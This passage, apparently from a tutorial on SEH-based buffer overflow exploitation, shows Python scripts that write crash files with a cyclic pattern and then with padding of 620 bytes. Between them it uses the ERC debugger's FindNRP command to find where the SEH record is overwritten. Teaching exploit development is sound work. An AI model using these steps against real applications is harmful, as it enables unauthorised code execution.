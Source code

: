 We can now add this into our exploit code either directly from the debugger or from the Pattern\_Create\_1.txt file in our working directory to give us exploit code that looks something like the following.

```

f = open("crash-2.txt", "wb")  
  
buf  = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac"  
buf += b"9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8"  
buf += b"Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7A"  
buf += b"i8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al"  
buf += b"7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6"  
buf += b"Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5A"  
buf += b"r6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au"  
buf += b"5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2A"  
  
f.write(buf)  
f.close()

```

Now if we generate the crash-2.txt file and copy its contents into our vulnerable application we will encounter a crash. We can run the FindNRP command to identify how far through our buffer the SEH record was overwritten.

**Command:**\
ERC --FindNRP

The output of the FindNRP command above displays that the SEH register is overwritten after 620 characters in the malicious payload. As such we will now ensure that our tool output is correct by overwriting our SEH register with B’s and C’s. First we will need to hit the restart button to restart the process and prepare it for another malicious payload. The following exploit code should produce an overwrite of B’s and C’s over the SEH register.

```

f = open("crash-3.txt", "wb")  
  
buf = b"A" * 620  
buf += b"B" * 4  
buf += b"C" * 4  
buf += b"D" * 100  
  
f.write(buf)  
f.close() 

```
